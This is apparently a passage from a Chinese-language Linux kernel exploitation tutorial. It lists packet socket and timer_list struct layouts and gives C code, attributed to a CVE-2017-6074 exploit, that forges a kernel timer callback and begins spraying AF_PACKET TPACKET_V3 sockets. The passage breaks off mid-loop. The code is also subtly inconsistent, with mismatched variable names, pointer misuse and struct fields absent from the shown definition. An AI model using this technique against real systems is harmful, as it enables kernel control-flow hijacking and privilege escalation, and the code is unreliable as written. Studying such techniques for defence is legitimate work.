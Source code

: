 ```c
    unsigned int        pg_vec_order;
    unsigned int        pg_vec_pages;
    unsigned int        pg_vec_len;

    unsigned int __percpu    *pending_refcnt;

    struct tpacket_kbdq_core    prb_bdqc;                    // <---------------- prb_bdqc
};
/* kbdq - kernel block descriptor queue */
struct tpacket_kbdq_core {
    struct pgv    *pkbdq;
    ... ...
    struct sk_buff    *skb;                                    // <---------------- skb
	... ...
    unsigned short  retire_blk_tov;
    unsigned short  version;
    unsigned long    tov_in_jiffies;

    struct timer_list retire_blk_timer;                        // <---------------- retire_blk_timer
};
struct timer_list {
    struct hlist_node    entry;
    unsigned long        expires;
    void            (*function)(unsigned long);                // 待伪造的回调函数
    unsigned long        data;                                 // 参数
    u32            flags;
#ifdef CONFIG_TIMER_STATS
    int            start_pid;
    void            *start_site;
    char            start_comm[16];
#endif
#ifdef CONFIG_LOCKDEP
    struct lockdep_map    lockdep_map;
#endif
};
```

**构造**：来自   [CVE-2017-6074](https://www.anquanke.com/post/id/253478)

```c
#define TIMER_OFFSET		(744 + 48 + 104)
void init_timer_buffer(char* buffer, void *func, unsigned long arg) {
	memset(&buffer[0], 0, 2048);
	struct timer_list* timer = (struct timer_list *)&buffer[TIMER_OFFSET];
	timer->next = 0;
	timer->prev = 0;
	timer->expires = 4294943360;
	timer->function = func;
	timer->data = arg;
	timer->flags = 1;
	timer->slack = -1;
}

int timers[6];
int optval = TPACKET_V3;
struct tpacket_req3 tp;
struct udp_fifo_handle uh3;
socketpair(AF_LOCAL, SOCK_DGRAM, 0, uh3->fds);
// 创建 timer
for (i = 0; i < 6; i++) {	
	timer[i] = socket(AF_PACKET, SOCK_DGRAM, htons(ETH_P_ARP));
    setsockopt(timer[i], SOL_PACKET, PACKET_VERSION, &optval, sizeof(optval));
	memset(&tp, 0, sizeof(tp));
```